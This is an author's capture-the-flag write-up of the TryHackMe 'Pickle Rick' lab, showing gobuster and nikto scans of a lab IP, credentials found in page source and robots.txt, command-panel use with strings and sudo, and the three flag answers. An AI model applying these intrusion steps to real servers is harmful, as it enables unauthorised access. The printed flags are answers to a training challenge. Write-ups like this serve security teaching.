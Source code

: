 [< Back to All CTFs](https://github.com/KrisLloyd/CTF#ctf-solves)

[< Back to AE CTF](https://github.com/KrisLloyd/CTF#ae-ctf---tryhackme-april-2021)
***

# Pickle Rick

![Exfil Challenge](PickleRick.PNG)

### Challenge:
##### This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
##### 90 Points Total, 30 per question

### Solve:

Since this was a webserver challenge, the first step was to open the provided IP address (10.10.117.3) in a web browser. The landing page suggested that I need to gain access to the system and discover the 3 special ingredients (flags).

![Webpage](webpage.PNG)

Checking the source code of the web page was the next obvious choice. Hidden in the <body> tag was a <div> that contained a comment with the username.
  
```html
<!--Note to self, remember username! Username: R1ckRul3s-->
```
Great, half-way there! The next step is the getting the password. The challenge task suggests that 'dirbuster' should be used, so that was my next choice.

![dirb](dirb.PNG)

```bash
root@ip-10-10-150-158:~# gobuster dir -u http://10.10.117.3 -w /root/Desktop/Tools/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.117.3
[+] Threads:        10
[+] Wordlist:       /root/Desktop/Tools/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/04/21 15:19:50 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2021/04/21 15:19:50 Finished
===============================================================
```
Ok, these are some exciting results. Checking out the results, only the robots.txt contained anything that I would deem to be usefull. The page contained a single string:

```
Wubbalubbadubdub
```

Ok, I assume this is most likely the password. Lets try and ssh into the machine and see what we can find.

```bash
root@ip-10-10-150-158:~# ssh R1ckRul3s@10.10.117.3
R1ckRul3s@10.10.117.3: Permission denied (publickey).
```

That didn't work. Time to try something else. The attack VM contains a folder of tools for web, and included in that was a tool for Nikto. Checking the [Kali description](https://tools.kali.org/information-gathering/nikto) for Nikto, it says its an 'Open Source (GPL) web server scanner', that sounds exactly like ehat I need. Lets see if it turns up something interesting.

```bash
root@ip-10-10-150-158:~# nikto -h http://10.10.117.3
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.117.3
+ Target Hostname:    ip-10-10-117-3.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2021-04-21 15:35:30 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-04-21 15:35:39 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Bingo! Looks like there is a `/login.php` page, lets see what we've got.

![Login Page](LoginPage.PNG)

Using the username `R1ckRul3s` and password `Wubbalubbadubdub` granted access! Taking a look around, it looks like the page lands on the **Command Panel** tab, checking any of the other tabs just gives the same response:

![Command Panel](Command.PNG)

![Other Tabs](Tabs.PNG)

Assuming the command panel operates like the shell, I entered the **ls** command as a test and got some very interesting output:

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

However, trying to read any of the files using cat provided another road block. Disabled commands:

![Disabled Commands](Disabled.PNG)

Thankfully there's more than one way to read strings, by using **strings**! That got the first answer out of the way. I also read the **clue.txt** for hints on any other locations:

```bash
mr. meeseek hair
```

```
(clue.txt)
Look around the file system for the other ingredient.
```

Ok, where else could data be hidden. **whoami** shows that I'm a non-user account **www-data**. Since this is Rick's computer, he must have an account, lets see if there is anything on his account. In the home directory of the **rick** user, there is a file called **second ingredients**, using the same **strings** method as the first ingredient provided the second:


```bash
(/home/rick/"second ingredient")
1 jerry tear
```

2 out of 3 down, one more to go. My next step is root, CTFs always hide stuff in root. The **www-data** shouldn't have access to the root folder by default, so let's try and switch users. Performing **sudo su** to switch to any user doesn't seem to work, switchint ro **rick**, **ubuntu**, and **root** didn't go through. Let't just try using **sudo** to **ls** the root directory:

```bash
3rd.txt
snap
```

Paydirt! lets see what it says:

```bash
(3rd.txt)
3rd ingredients: fleeb juice
```




### Flag

**First ingredient:**
```
mr. meeseek hair
```
**Second ingredient:**
```
1 jerry tear
```
**Third ingredient:**
```
fleeb juice
```
